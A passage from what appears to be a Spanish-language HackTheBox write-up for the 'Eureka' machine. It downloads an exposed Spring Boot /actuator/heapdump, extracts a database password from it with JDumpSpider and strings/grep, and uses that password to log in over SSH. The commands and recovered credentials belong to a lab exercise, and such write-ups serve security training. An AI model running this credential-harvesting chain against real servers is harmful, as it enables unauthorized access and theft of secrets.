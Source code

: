 Analizaremos este archivo en busca de información sensible que pueda estar cargada en la memoria. Primeramente hacer una solicitud a `/heapdump` y descargaremos el archivo

~~~ bash
curl http://furni.htb/actuator/heapdump -O 
~~~


## Credentials Leakage

Podemos analizar este volcado de memoria con herramientas como [`jdumpspider`](https://github.com/whwlsfb/JDumpSpider/releases/download/dev-20250409T071858/JDumpSpider-1.1-SNAPSHOT-full.jar)

~~~ bash
java -jar JDumpSpider-1.1-SNAPSHOT-full.jar heapdump 

===========================================
SpringDataSourceProperties
-------------
password = 0sc@r190_S0l!dP@sswd
driverClassName = com.mysql.cj.jdbc.Driver
url = jdbc:mysql://localhost:3306/Furni_WebApp_DB
username = oscar190
~~~

Una forma alternativa es simplemente usar `strings` y con la herramienta `grep` buscar lo que nos interesa, en este caso contraseñas, donde debemos buscar de la siguiente manera

~~~ bash
strings heapdump | grep -i 'password='

proxyPassword='
{password=0sc@r190_S0l!dP@sswd, user=oscar190}!
update users set email=?,first_name=?,last_name=?,password=? where id=?!
~~~


## Shell as `oscar190`

Con las credenciales que obtuvimos en `heapdump`, podremos iniciar sesión por SSH como el usuario `oscar190`

~~~ bash
ssh oscar190@10.10.11.66                                           

Last login: Sat Aug 30 17:41:00 2025 from 10.10.14.132
oscar190@eureka:~$
~~~


## System Enumeration

Comenzaremos un proceso de enumeración manual del sistema que nos permita elevar detectar vías potenciales de escalada de privilegios

### Users
